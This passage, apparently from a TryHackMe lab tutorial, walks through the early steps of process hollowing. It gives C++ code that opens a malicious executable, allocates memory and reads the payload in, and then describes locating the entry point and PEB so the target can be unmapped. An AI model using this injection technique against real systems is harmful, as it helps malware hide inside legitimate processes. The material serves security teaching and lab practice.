 In step two, we need to open a malicious image to inject. This process is split into three steps, starting by using `CreateFileA` to obtain a handle for the malicious image.

```cpp
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```

Once a handle for the malicious image is obtained, memory must be allocated to the local process using `VirtualAlloc`. `GetFileSize` is also used to retrieve the size of the malicious image for `dwSize`.

```cpp
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use `ReadFile` to write to local process memory.

```cpp
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```

At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers `EAX` (entry point), and `EBX` (PEB location) contain the information we need to obtain; these can be found by using `GetThreadContext`. Once both registers are found, `ReadProcessMemory` is used to obtain the base address from the `EBX` with an offset (`0x8`), obtained from examining the PEB.
